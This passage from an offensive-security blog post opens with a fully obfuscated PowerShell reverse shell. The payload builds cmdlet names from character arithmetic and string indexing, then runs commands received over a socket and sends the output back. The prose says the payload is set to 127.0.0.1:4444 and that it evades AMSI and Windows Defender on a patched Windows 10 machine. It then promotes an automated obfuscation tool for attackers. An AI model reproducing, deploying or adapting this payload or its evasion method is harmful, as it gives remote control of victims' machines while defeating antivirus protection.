$([char]($(116)+$(83)-$(116))+[char]($(0+0+0)+$(121+121+0+0-121)-$(0+0+0))+[char]((($(85)))*$(0-0+0+115)/(($(85))))+[char]($(0+0+52)+$(116)-$(0+0+52))+[char]($(43)+(((101)))-$(43))+[char]($(14)+(109)-$(14))+[char](24+$(46+46+0-0-46)-24)+[char]($(0+0+0)+84-$(0+0+0))+[char]($(0+0+0)+(((101)))-$(0+0+0))+[char]($(0+0+0)+$(0-120+120+120)-$(0+0+0))+[char](24+$(116)-24)+[char](($((57)))+$(46+46+0-0-46)-($((57))))+[char]($(0+0+0)+((65))-$(0+0+0))+[char]($(121+121+0+0-121)+$(83)-$(121+121+0+0-121))+[char]($(0+0+0)+$($($(67)))-$(0+0+0))+[char]($(0+0-0+47)*73/$(0+0-0+47))+[char]($((75))+73-$((75)))+[char]($(0+0-0-0+3)*69/$(0+0-0-0+3))+[char]($(0+0-0-0+3)*110/$(0+0-0-0+3))+[char]($(0+0+0)+$(0+0+0+99)-$(0+0+0))+[char]($(94+94+0-0+0-94)*$((111))/$(94+94+0-0+0-94))+[char]((109)*$($(100))/(109))+[char]($(0+0+0)+(($(105)))-$(0+0+0))+[char](((61))+110-((61)))+[char]($(23+23+0+0+0-0-23)+$(0+0-0+0-103+103+103)-$(23+23+0+0+0-0-23)))).GetString($aKydB9RXv2thuU,$(0+0+0), $cvB4PPcLVI);$FP8DpgPcK0IovuDHPZ4p = (& (("jc79lahBD50zmLSoGOAWJ6bEVTCZn-gfHRqQIs83k1KMyvYi2UPxdwFrptueX4N")[36,$(((28))),$(($(45))),$(15+15+0+0+0+0-15),(($(40))),$(0+0-0-0+59),$(29),$(23+23+0+0+0-0-23),($(51)),($($(56))),(55),$(0+0-0-0+59),$((37)),$((37)),$(0+0-0+47),$(15+15+0+0+0+0-15),$(((28)))] -join '') $WcDamZqInJS7HDr3 2>&1 |<##>%{<#c8jKdSaJDXH#>$_}| & (("r2-$(0-0-0-5+5+5)kGjMq4wbPSpReXc3861oBCfYULI0nEhaTvylDxHWuzVJsA79igmtNKdFOQZ")[$(60),(44),(55),$(0-0+2),(13),(55),$(0+0+0),$(0+0+52),$(32+32+0+0-32),$(53+53+0-53)] -join '') );$FP8DpgPcK0IovuDHPZ4p2 = $FP8DpgPcK0IovuDHPZ4p + 'P'+'S'+' ' + (& (("Xm965ksBJzH0P4Tx3fq-uV2YDWvw1pGA8OQdEoUiZyIKRbL7tMjNnerlacgCFhS")[$($(30)),$(53+53+0-53),$(0+48),$(0+0+0+19),$(46+46+0-0-46),$((37)),($((57))),($($(56))),$(0+48),$(0-0+0-39+39+39),$((37)),$(0+0+52)] -join '')).Path + $('>'+' ');$6j = ([text.encoding]::ASCII).GetBytes($FP8DpgPcK0IovuDHPZ4p2);$VQzo0MZvYst.Write($6j,$(0+0+0),$6j.Length);& (("kOlASeNV-$(0+0+0-0+0-9+9+9)oIy0izxUGYCWLq1Bm7EuH3dK6rjPc8shnJMtwQR45XTpbfDFaZ2gv")[$(14),$(0+0-0-0+0-42+42+42),$(0+0+0+62),$(0-0+0+10),$(0+0+0),$(0-0-0-5+5+5),(8),$(0-0-0-5+5+5),$(0-0+0+16),$(53+53+0-53),35,$(0-0-0-5+5+5),(($(40))),(($(40))),$(14),$(0-0+0+10),$(0+0-0-0+0-42+42+42)] -join '') ([string]::join('', ( (36,$(86),$(81+81+0+0-81),$(122),$((111)),$(0+48),$(77),$(((90))),118,$(0+0+89),$(0-0+0+115),$(116),$(46+46+0-0-46),$($(70)),$(108),$(117+117+0+0-0+0-117),$(0-0+0+115),$(104),(($(40))),41) |%{ ( [char][int] $_)})) | % {$_})};& (("$(0-0-0-5+5+5)h7KWXyczN0sentgPElZ-QviSjuR9L1mdf3pDVTUo8Gqk4CYrHxBA2baIw6MFOJ")[$(23+23+0+0+0-0-23),(13),$($($(22))),(($(40))),(44),12,$(20),12,(((50))),35,$(0+48),12,$(11),$(11),$(23+23+0+0+0-0-23),(($(40))),(13)] -join '') ([string]::join('', ( (36,$(82),73,$(104),(((50))),$(0+0+89),$(77),(((101))),(($(85))),$(0+0-0+114),$(0-0+76),$(108),(((101))),$(0-0+0-0-102+102+102),$(108),$(117+117+0+0-0+0-117),$(46+46+0-0-46),$($($(67))),$(108),$((111)),$(0-0+0+115),(((101))),(($(40))),41) |%{ ( [char][int] $_)})) | % {$_})
```

If you were to copy this payload over to an IDE such as Visual Studio Code, you may see some odd errors. One of the lessons learned from this approach is that if your IDE can't even determine whether or not certain characters exist (until it's executed) then the chances of AMSI being effective is less than likely. If you'd like to test this payload yourself, it's set to connect to 127.0.0.1 on port 4444. 

## Stepping into the gauntlet

To demonstrate the effectiveness of this approach, let's put it to the test against a fully patched Windows 10 Enterprise machine with all the default Defender options enabled. We'll start off by using the vanilla reverse shell. The plain text version of the shell is blocked as expected, however, our obfuscated payload is free to run at will.

### Windows 10 Version + Defender Status


### AMSI Blocked


### AMSI Bypassed


## Invoke-PSObfuscation.ps1

Within this blog post I shared a lot of code snippets. While it may be fun for some (yes, I said fun!), to execute them individually to build out your payload for each component instance, it's not really time effective. To help automate the layer 0 strategies I discussed here I have written Invoke-PSObfuscation.ps1 to share with the Offensive Security Community.

With each component I have shown you a single generator and they may not survice the test of time as AV vendors improve their detection methods. To aid in the integrity of this approach, each supported component has its own dedicated generator that contains a variety of possible static or dynamically generated values that are randomly selected during each invocation. This adds a degree of randomness each time you run this tool against a given payload so each iteration will be different. 

If an algorithm related to a specific component starts to get flagged, the current design allows us to easily modify the logic for that generator without compromising the entire script. If would like to see how far down the rabbit hole goes, you can look at this tool in more detail here https://github.com/gh0x0st/Invoke-PSObfuscation

## Wrapping Up

As quickly as new obfuscation techniques appear so do the controls that impact their effectiveness. This alone should teach every one of us to keep one foot in the door of being comfortable and the other on the side of trying to find new ways to accomplish the same goal.

## Resources

* (Microsoft, 2019): https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
* (Microsoft, 2019): https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps
* (Microsoft, 2019): https://docs.microsoft.com/en-us/windows/win32/amsi/dev-audience
* (Microsoft, 2021): https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1
* (Microsoft, 2020): https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_character_encoding?view=powershell-7.1
* (Microsoft, 2021): https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-7.1
* (Microsoft, 2020): https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/cmdlet-overview?view=powershell-7.1
